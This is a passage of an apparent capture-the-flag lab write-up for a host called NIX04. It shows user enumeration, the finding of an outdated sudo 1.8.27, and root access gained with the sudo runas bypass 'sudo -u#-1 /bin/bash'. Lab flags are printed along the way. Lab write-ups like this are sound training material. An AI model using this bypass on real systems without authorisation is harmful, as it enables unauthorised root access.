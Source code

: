 ```bash
Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Tue Dec  8 05:17:48 2020 from 10.100.1.2

ben@DANTE-NIX04:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben),46(plugdev)

ben@DANTE-NIX04:~$ whoami
ben

ben@DANTE-NIX04:~$ cat flag.txt
DANTE{Pretty_Horrific_PH4IL!}
```

I got a `ben`'s shell!

##### Enumeration

First, let's roam around the `ben`s home directory.
I found `sudo` installation file is downloaded in `Downloads` folder.

```bash
ben@DANTE-NIX04:~/Downloads$ ls -al
total 3228
drwxr-xr-x  3 ben ben    4096 Apr 14  2021 .
drwxr-xr-x 16 ben ben    4096 Jan  5 19:28 ..
drwxr-xr-x 11 ben ben    4096 Apr 14  2021 sudo-1.8.27
-rw-rw-r--  1 ben ben 3293178 Jun 26  2020 sudo-1.8.27.tar.gz
```

The version 1.8.27 looks quite outdated compare to current kali's sudo version : 1.9.15p5
I googled it to find if there's any vulnerability and found t he following :
https://www.exploit-db.com/exploits/47502

##### Privilege Escalation to `root` on NIX04

Let's check what commands are available with `sudo` command.

```bash
ben@DANTE-NIX04:~/Downloads$ sudo -l
Password: 
Matching Defaults entries for ben on DANTE-NIX04:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User ben may run the following commands on DANTE-NIX04:
    (ALL, !root) /bin/bash
```

It says the user `ben` can use `sudo` command towards any user except `root`.
However, the exploit-db says that there's a way to bypass this : using `-u#-1` command.

```bash
ben@DANTE-NIX04:~/Downloads$ sudo -u#-1 /bin/bash
root@DANTE-NIX04:/home/ben/Downloads# id
uid=0(root) gid=1000(ben) groups=1000(ben)

root@DANTE-NIX04:/home/ben/Downloads# whoami
root

root@DANTE-NIX04:/root# cat flag.txt
DANTE{sudo_M4k3_me_@_Sandwich}
```

I got a `root` shell now!